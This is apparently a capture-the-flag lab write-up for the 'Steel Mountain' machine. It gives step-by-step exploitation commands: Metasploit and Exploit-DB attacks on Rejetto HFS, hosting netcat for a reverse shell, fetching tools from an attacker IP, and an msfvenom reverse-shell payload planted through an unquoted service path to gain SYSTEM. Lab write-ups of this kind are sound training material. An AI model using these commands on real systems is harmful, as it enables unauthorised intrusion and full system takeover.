

steel mountain
Steel Mountain
Hello
nmap -Pn -T4 -sV 10.10.118.196


Foothold:
Way -1:
Metasploit:
Search HTTP File Server
exploit/windows/http/rejetto_hfs_exec
set options for:
RHOST - Target_IP
RPORT - Target_Port
SRVHOST -Attacker IP to start webserver (Optional)
SRVPORT -Attacker Port to Start websever (Optional)
Set Payload:
windows/meterpreter/reverse_tcp
LHOST - Attacker IP
LPORT - Attacker Port to Listen for reverse shell
Run/exploit
With the received meterpreter session.
Get the user flag at C:\Users\Bill\Desktop\user.txt
Way-2:
Python Code from Exploit-DB:
searchsploit -m windows/remote/39161.py
1. Edit the file and change the Local IP address and Local Port inside the file to Attacker Details.
2. Download netcat.exe for windows and name it to nc.exe.
3. Host nc.exe as it will be accessible as http://<attackers_ip>:80/nc.exe
From the downloaded/renamed location run python2 -m SimpleHTTPServer 80
4. Start nc on attacker on listen mode(As per port provided in the python file)
nc -lvnp Local Port
5. Run the exploit using python2: python2 39161.py <target_IP> <Target_Port>
We will get limited powershell on nc listener with user preveleges.
Prevelege Escalation:
Either using meterpreter upload PowerUp.ps1 or WinPEASx64.exe
Then go into a powershell instance by following:
Meterpterter Commands to Interact with Powershell:
load powershell : Loads the powershell extention of meterpreter
powershell_shell : Starts a powershell in the target machine.
Or
For normal shell use the following to upload the files.
1. Start a webserver where the exectuibles are located by: python2 -m SimpleHTTPServer 80
2. powershell -c Invoke-WebRequest -Uri <URL> -OutFile <OUTPUT-FILENAME>
eg. powershell -c Invoke-WebRequest -Uri http://10.11.72.31/THM_WinPrivEsc_Tools/winPEASx64.exe -OutFile winPEASx64.exe
Powershell commands to add a module and run it:
Import-Module .\PowerUp.ps1
Invoke-AllChecks
or
. .\PowerUp.ps1
Invoke-AllChecks

We use the unquoted service path vulnerability for AdvancesSystemCareService9. The service also has CanRestrat True.
Thus we can stop and start the service after we inject our payload to the C:\Program Files (x86)\IObit Directory
Name of Payload: Advanced.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X PORT=XXXX -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
Copy this Advanced.exe to C:\Program Files (x86)\IObit.
Open a reverse shell listener on attacker PC.
Then restart the service as follows:
sc stop AdvancesSystemCareService9
sc start AdvancesSystemCareService9
Now we have nt authority\system shell in the listener.
Get the flag from C:\Users\Administrator\Desktop\root.txt
Note: if we use WinPEASx64.exe, we get the same hints about unquoted service path vulnerability and exploit the same way.
Thanks!!